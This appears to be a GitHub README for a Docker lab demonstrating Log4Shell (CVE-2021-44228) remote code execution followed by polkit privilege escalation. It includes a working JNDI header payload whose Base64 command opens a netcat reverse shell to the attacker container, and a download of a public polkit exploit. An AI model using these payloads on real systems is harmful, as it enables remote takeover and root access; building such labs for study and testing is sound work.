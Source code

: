 # poc
Vulnerable instance for the log4j apache exploit and privilege escalation with polkit
- The vulnable spring-boot-application.jar was extracted from [here](https://hub.docker.com/r/andylibrian/log4shell-vulnerable-app/tags)
- The malicious JNDI server was downloaded from [here](https://log4j-knox.s3.amazonaws.com/JNDIExploit-1.2-SNAPSHOT.jar) and referenced on [this](https://github.com/kubearmor/log4j-CVE-2021-44228) article.

## creating the vulnerable instances
> Note: the Dockerfiles require certain versions of the vulnerable applications to be present within the ubuntu repositories. If these get updated and/or removed on any given time the docker image will fail to build. To solve this an image will be uploaded to the docker hub and linked here.

### log4j-polkit-vuln
The vulnerable instance will be running and listening for connections on port 80 (exposed to the host machine) on completion of the steps below. The vulnerable part for the log4j exploit is the X-Api-Version header that is sent to the server.

steps to create a vulnerable instance for log4j + polkit:
1. cd log4j-polkit-vuln
2. docker build -t log4j-polkit-vuln .
3. docker run -p 80:8080 --hostname victim log4j-polkit-vuln

### attackserver
This will simulate the attackers machine, in this case present within the same network (due to easy communication between docker containers), but the exploit works no matter where this attack server is situated (only condition is that it is accessible by the victim). The malicious JNDI server will be hosted on here and create a malicious class to execute arbitrary commands on the victims machine.

steps to create a simulated attacker machine:
1. cd attackserver
2. docker build -t attackserver .
3. docker run -it --hostname attackserver attackserver /bin/bash
4. java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p 8888 & # create malicious JNDI server

## exploitation
commands from the poc-video
> Note: IP address of the attackserver might vary
```
# Log4j exploit
curl http://localhost -H 'X-Api-Version: ${jndi:ldap://172.17.0.3:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMyA0NDQ0IC1lIC9iaW4vYmFzaA==}'

# Polkit exploit
wget https://raw.githubusercontent.com/afwu/CVE-2021-4035/main/cve-2021-4034-poc.c

```
